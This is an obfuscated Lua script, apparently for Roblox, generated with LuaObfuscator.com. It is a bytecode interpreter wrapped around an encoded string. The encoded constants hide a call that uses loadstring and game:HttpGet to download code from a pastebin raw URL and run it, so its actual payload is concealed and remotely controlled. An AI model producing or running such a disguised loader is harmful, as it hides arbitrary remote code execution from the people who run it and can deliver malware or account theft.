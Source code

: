 --[[
 .____                  ________ ___.    _____                           __                
 |    |    __ _______   \_____  \\_ |___/ ____\_ __  ______ ____ _____ _/  |_  ___________ 
 |    |   |  |  \__  \   /   |   \| __ \   __\  |  \/  ___// ___\\__  \\   __\/  _ \_  __ \
 |    |___|  |  // __ \_/    |    \ \_\ \  | |  |  /\___ \\  \___ / __ \|  | (  <_> )  | \/
 |_______ \____/(____  /\_______  /___  /__| |____//____  >\___  >____  /__|  \____/|__|   
         \/          \/         \/    \/                \/     \/     \/                   
          \_Welcome to LuaObfuscator.com   (Alpha 0.10.8) ~  Much Love, Ferib 

]]--

local v0=tonumber;local v1=string.byte;local v2=string.char;local v3=string.sub;local v4=string.gsub;local v5=string.rep;local v6=table.concat;local v7=table.insert;local v8=math.ldexp;local v9=getfenv or function() return _ENV;end ;local v10=setmetatable;local v11=pcall;local v12=select;local v13=unpack or table.unpack ;local v14=tonumber;local function v15(v16,v17,...) local v18=1;local v19;v16=v4(v3(v16,5),"..",function(v30) if (v1(v30,2)==81) then local v86=0;while true do if (v86==0) then v19=v0(v3(v30,1,1));return "";end end else local v87=0;local v88;while true do if (v87==0) then v88=v2(v0(v30,16));if v19 then local v123=v5(v88,v19);v19=nil;return v123;else return v88;end break;end end end end);local function v20(v31,v32,v33) if v33 then local v89=(v31/((5 -3)^(v32-((2 + 0) -1))))%((3 -1)^(((v33-(2 -1)) -(v32-(620 -((790 -235) + 64)))) + (932 -(857 + 74)))) ;return v89-(v89%(569 -(367 + 201))) ;else local v90=0;local v91;while true do if (v90==((1992 -(68 + 997)) -((1484 -(226 + 1044)) + 713))) then v91=(1 + (4 -3))^(v32-1) ;return (((v31%(v91 + v91))>=v91) and ((118 -(32 + 85)) + 0)) or (877 -((1919 -(1523 + 114)) + 595)) ;end end end end local function v21() local v34=0 + 0 ;local v35;while true do if ((1 + 0)==v34) then return v35;end if (v34==(957 -((1637 -745) + 65))) then v35=v1(v16,v18,v18);v18=v18 + (2 -1) ;v34=1 -(350 -(87 + 263)) ;end end end local function v22() local v36=(132 + 48) -((1064 -(915 + 82)) + 113) ;local v37;local v38;while true do if (v36==(3 -2)) then return (v38 * (1208 -(802 + (424 -274)))) + v37 ;end if (v36==(0 + 0)) then v37,v38=v1(v16,v18,v18 + 2 );v18=v18 + (5 -3) ;v36=2 -1 ;end end end local function v23() local v39,v40,v41,v42=v1(v16,v18,v18 + 2 + 1 );v18=v18 + (4 -0) ;return (v42 * 16777216) + (v41 * 65536) + (v40 * (1443 -(1069 + 118))) + v39 ;end local function v24() local v43=v23();local v44=v23();local v45=2 -1 ;local v46=(v20(v44,1 -0 ,4 + 16 ) * (((1749 -(760 + 987)) + 0)^(56 -24))) + v43 ;local v47=v20(v44,21 + 0 ,822 -(368 + 423) );local v48=((v20(v44,133 -101 )==(1 + 0)) and  -(3 -2)) or (19 -(10 + 8)) ;if (v47==0) then if (v46==((4067 -3208) -(814 + 45))) then return v48 * (0 -0) ;else v47=1 + 0 ;v45=442 -(416 + (1939 -(1789 + 124))) ;end elseif (v47==((3698 -(745 + 21)) -(261 + 215 + 409))) then return ((v46==(0 -0)) and (v48 * ((1 + 0 + (0 -0))/0))) or (v48 * NaN) ;end return v8(v48,v47-(1809 -786) ) * (v45 + (v46/((440 -(145 + 293))^(482 -(44 + 386))))) ;end local function v25(v49) local v50=0 -(1817 -(1703 + 114)) ;local v51;local v52;while true do if (v50==(3 -2)) then v51=v3(v16,v18,(v18 + v49) -((702 -(376 + 325)) + 0) );v18=v18 + v49 ;v50=2 + 0 ;end if ((1055 -(87 + 968))==v50) then v51=nil;if  not v49 then v49=v23();if (v49==(0 -0)) then return "";end end v50=1 + 0 ;end if (v50==(4 -2)) then v52={};for v113=1414 -(447 + 966) , #v51 do v52[v113]=v2(v1(v3(v51,v113,v113)));end v50=8 -5 ;end if (v50==3) then return v6(v52);end end end local v26=v23;local function v27(...) return {...},v12("#",...);end local function v28() local v53=(function() return function(v92,v93,v94,v95,v96,v97,v98,v99) local v92=(function() return 0;end)();local v93=(function() return;end)();local v95=(function() return;end)();while true do if (v92~=(74 -(71 + 3))) then else local v119=(function() return 0;end)();while true do if (v119~=(0 + 0)) then else v93=(function() return v94();end)();v95=(function() return nil;end)();v119=(function() return 2 -1 ;end)();end if (v119==(1 -0)) then v92=(function() return  #"[";end)();break;end end end if ( #"["~=v92) then else if (v93== #"{") then v95=(function() return v94()~=(241 -(187 + 54)) ;end)();elseif (v93==(782 -(162 + 618))) then v95=(function() return v96();end)();elseif (v93== #"nil") then v95=(function() return v97();end)();end v98[v99]=(function() return v95;end)();break;end end return v92,v93,v94,v95,v96,v97,v98,v99;end;end)();local v54=(function() return function(v100,v101,v102) local v103=(function() return 0;end)();local v104=(function() return;end)();while true do if (v103~=(290 -(60 + 230))) then else v104=(function() return 0 + 0 ;end)();while true do if (v104==(0 + 0)) then local v124=(function() return 0;end)();while true do if (v124~=(1456 -(282 + 1174))) then else v100[v101-#"}" ]=(function() return v102();end)();return v100,v101,v102;end end end end break;end end end;end)();local v55=(function() return {};end)();local v56=(function() return {};end)();local v57=(function() return {};end)();local v58=(function() return {v55,v56,nil,v57};end)();local v59=(function() return v23();end)();local v60=(function() return {};end)();for v68= #" ",v59 do FlatIdent_A9A3,Type,v21,Cons,v24,v25,v60,v68=(function() return v53(FlatIdent_A9A3,Type,v21,Cons,v24,v25,v60,v68);end)();end v58[ #"91("]=(function() return v21();end)();for v69= #"}",v23() do local v70=(function() return v21();end)();if (v20(v70, #".", #",")~=(811 -(569 + 242))) then else local v108=(function() return 0;end)();local v109=(function() return;end)();local v110=(function() return;end)();local v111=(function() return;end)();local v112=(function() return;end)();while true do if (v108==(5 -3)) then while true do if (v109==2) then local v160=(function() return 0 -0 ;end)();while true do if ((0 -0)==v160) then if (v20(v111, #"<", #".")~= #"/") then else v112[2]=(function() return v60[v112[1253 -(721 + 530) ]];end)();end if (v20(v111,1 + 1 ,4 -2 )== #">") then v112[ #"nil"]=(function() return v60[v112[ #"gha"]];end)();end v160=(function() return 1;end)();end if (v160==1) then v109=(function() return  #"gha";end)();break;end end end if (v109== #"/") then local v161=(function() return 0 + 0 ;end)();local v162=(function() return;end)();while true do if (0~=v161) then else v162=(function() return 700 -(271 + 429) ;end)();while true do if (v162==(0 + 0)) then v112=(function() return {v22(),v22(),nil,nil};end)();if (v110==(1636 -(1373 + 263))) then local v181=(function() return 1000 -(451 + 549) ;end)();local v182=(function() return;end)();while true do if (v181==0) then v182=(function() return 1086 -(461 + 625) ;end)();while true do if (v182==(1288 -(993 + 295))) then v112[ #"-19"]=(function() return v22();end)();v112[ #".com"]=(function() return v22();end)();break;end end break;end end elseif (v110== #"[") then v112[ #"xnx"]=(function() return v23();end)();elseif (v110==(1 + 1)) then v112[ #"gha"]=(function() return v23() -((1 + 1)^(24 -8)) ;end)();elseif (v110== #"gha") then local v187=(function() return 0 + 0 ;end)();local v188=(function() return;end)();while true do if (v187==(0 -0)) then v188=(function() return 1384 -(746 + 638) ;end)();while true do if (v188==(0 + 0)) then v112[ #"xnx"]=(function() return v23() -(2^(5 + 11)) ;end)();v112[ #"0313"]=(function() return v22();end)();break;end end break;end end end v162=(function() return 1 -0 ;end)();end if (v162==1) then v109=(function() return 343 -(218 + 123) ;end)();break;end end break;end end end if (v109~=0) then else local v163=(function() return 1581 -(1535 + 46) ;end)();local v164=(function() return;end)();while true do if (v163==0) then v164=(function() return 0;end)();while true do if (v164==(1769 -(1749 + 20))) then v110=(function() return v20(v70,1 + 1 , #"xxx");end)();v111=(function() return v20(v70, #".com",6 + 0 );end)();v164=(function() return 1;end)();end if (v164==1) then v109=(function() return  #".";end)();break;end end break;end end end if (v109== #"nil") then if (v20(v111, #"91(", #"nil")~= #"|") then else v112[ #"0313"]=(function() return v60[v112[ #"asd1"]];end)();end v55[v69]=(function() return v112;end)();break;end end break;end if (v108==(1323 -(1249 + 73))) then v111=(function() return nil;end)();v112=(function() return nil;end)();v108=(function() return 1 + 1 ;end)();end if (v108~=(560 -(306 + 254))) then else local v121=(function() return 0 + 0 ;end)();local v122=(function() return;end)();while true do if (v121==(0 -0)) then v122=(function() return 0;end)();while true do if (1~=v122) then else v108=(function() return 2 -1 ;end)();break;end if ((1900 -(106 + 1794))==v122) then v109=(function() return 0 -0 ;end)();v110=(function() return nil;end)();v122=(function() return 1468 -(899 + 568) ;end)();end end break;end end end end end end for v71= #"[",v23() do v56,v71,v28=(function() return v54(v56,v71,v28);end)();end return v58;end local function v29(v62,v63,v64) local v65=v62[1 + 0 ];local v66=v62[1 + 1 ];local v67=v62[8 -5 ];return function(...) local v72=v65;local v73=v66;local v74=v67;local v75=v27;local v76=2 -(754 -(239 + 514)) ;local v77= -(115 -(4 + 110));local v78={};local v79={...};local v80=v12("#",...) -(1428 -(41 + 1386)) ;local v81={};local v82={};for v105=103 -(17 + 86) ,v80 do if (v105>=v74) then v78[v105-v74 ]=v79[v105 + 1 ];else v82[v105]=v79[v105 + 1 + 0 ];end end local v83=(v80-v74) + (1 -0) ;local v84;local v85;while true do v84=v72[v76];v85=v84[(1 + 1) -1 ];if ((518<902) and (v85<=3)) then if (v85<=1) then if (v85==(166 -((1451 -(797 + 532)) + 44))) then local v125=0 -0 ;local v126;local v127;local v128;local v129;while true do if ((2994>858) and (v125==(6 -4))) then for v175=v126,v77 do local v176=0 + 0 + 0 ;while true do if (v176==(0 + 0 + 0)) then v129=v129 + (1 -0) ;v82[v175]=v127[v129];break;end end end break;end if (v125==(66 -(30 + 35))) then v77=(v128 + v126) -(1 + 0) ;v129=1257 -(1043 + 214) ;v125=4 -2 ;end if ((v125==(0 -0)) or (3755<=915)) then v126=v84[1214 -(323 + 889) ];v127,v128=v75(v82[v126](v13(v82,v126 + 1 ,v84[7 -4 ])));v125=581 -(361 + 219) ;end end else local v130=v84[322 -((1255 -(373 + 829)) + 267) ];local v131=v82[v84[1 + 2 ]];v82[v130 + 1 ]=v131;v82[v130]=v131[v84[417 -(15 + 398) ]];end elseif (v85>(984 -(18 + 964))) then v82[v84[7 -5 ]]=v84[3];else v82[v84[2 + 0 ]]();end elseif (v85<=(4 + 1)) then if (v85>(854 -(20 + (1561 -(476 + 255))))) then v82[v84[2 + 0 ]]=v64[v84[3]];else local v139=126 -(116 + 10) ;local v140;while true do if ((3946>3743) and (v139==(0 + 0))) then v140=v84[740 -(542 + 196) ];v82[v140]=v82[v140](v13(v82,v140 + (1 -0) ,v77));break;end end end elseif ((v85<=(2 + 4)) or (1335>=3306)) then local v141;local v142,v143;local v144;local v145;v82[v84[2 + 0 ]]={};v76=v76 + 1 + 0 ;v84=v72[v76];v82[v84[4 -2 ]]=v64[v84[3]];v76=v76 + (2 -1) ;v84=v72[v76];v82[v84[1553 -(1126 + 425) ]]=v64[v84[408 -(118 + (1417 -(369 + 761))) ]];v76=v76 + (3 -2) ;v84=v72[v76];v145=v84[2];v144=v82[v84[1124 -(118 + 1003) ]];v82[v145 + 1 + 0 ]=v144;v82[v145]=v144[v84[11 -(12 -5) ]];v76=v76 + (378 -(142 + 235)) ;v84=v72[v76];v82[v84[9 -7 ]]=v84[1 + 2 ];v76=v76 + (978 -(553 + 424)) ;v84=v72[v76];v145=v84[(5 -2) -1 ];v142,v143=v75(v82[v145](v13(v82,v145 + 1 + 0 ,v84[3 + 0 ])));v77=(v143 + v145) -(1 + 0) ;v141=(238 -(64 + 174)) + 0 ;for v166=v145,v77 do v141=v141 + 1 + 0 ;v82[v166]=v142[v141];end v76=v76 + (2 -(1 + 0)) ;v84=v72[v76];v145=v84[2];v82[v145]=v82[v145](v13(v82,v145 + (2 -1) ,v77));v76=v76 + (2 -1) ;v84=v72[v76];v82[v84[2]]();v76=v76 + 1 + 0 ;v84=v72[v76];do return;end elseif (v85>(33 -26)) then v82[v84[2 -0 ]]={};else do return;end end v76=v76 + 1 ;end end;end return v29(v28(),{},v17)(...);end return v15("LOL!043Q00030A3Q006C6F6164737472696E6703043Q0067616D6503073Q00482Q747047657403213Q00682Q7470733A2Q2F706173746562696E2E636F6D2F7261772F45676D4C5834667000094Q00067Q00122Q000100013Q00122Q000200023Q00202Q00020002000300122Q000400046Q000200046Q00013Q00024Q0001000100016Q00017Q00",v9(),...);
